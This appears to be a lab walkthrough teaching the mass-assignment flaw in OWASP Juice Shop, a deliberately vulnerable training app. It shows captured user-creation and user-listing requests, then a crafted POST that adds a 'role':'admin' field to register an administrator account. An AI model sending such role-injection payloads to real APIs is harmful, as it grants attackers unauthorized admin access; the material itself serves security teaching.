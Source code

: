 # Mass Assignment

Mass assignment occurs when a property of a JSON or request payload is available in an unintended security context.

1. Review the network traffic generated after creating a user in the OWASP juice shop and note the following request:

    ``` json
    POST http://hacktarget:88/api/Users/ HTTP/1.1
    {
        "email" : "someone@somewhere.com",
        "password" : "BadPass123",
        "passwordRepeat" : "BadPass123",
        "securityQuestion" : {
            "id" : 7,
            "question" : "Name of your favorite pet?",
            "createdAt" : "2024-03-24T13:50:54.019Z",
            "updatedAt" : "2024-03-24T13:50:54.019Z"
            },
        "securityAnswer" : "Bob"
    }
    ```

1. After logging in, submit a GET request to `api\Users` and observe the response:

    ``` json
    {
    "status" : "success",
    "data" : [ {
        "id" : 1,
        "username" : "",
        "email" : "admin@juice-sh.op",
        "role" : "admin",
        "deluxeToken" : "",
        "lastLoginIp" : "",
        "profileImage" : "assets/public/images/uploads/defaultAdmin.png",
        "isActive" : true,
        "createdAt" : "2024-03-24T18:39:35.837Z",
        "updatedAt" : "2024-03-24T18:39:35.837Z",
        "deletedAt" : null
    },
    . . .
    ```

1. Note that the `role` is returned. Attempt to create a new user with the following request:

    ``` json
    POST http://hacktarget:88/api/Users/ HTTP/1.1
    {
        "email" : "sneakyadmin",
        "password" : "admin",
        "role" : "admin"
    }
    ```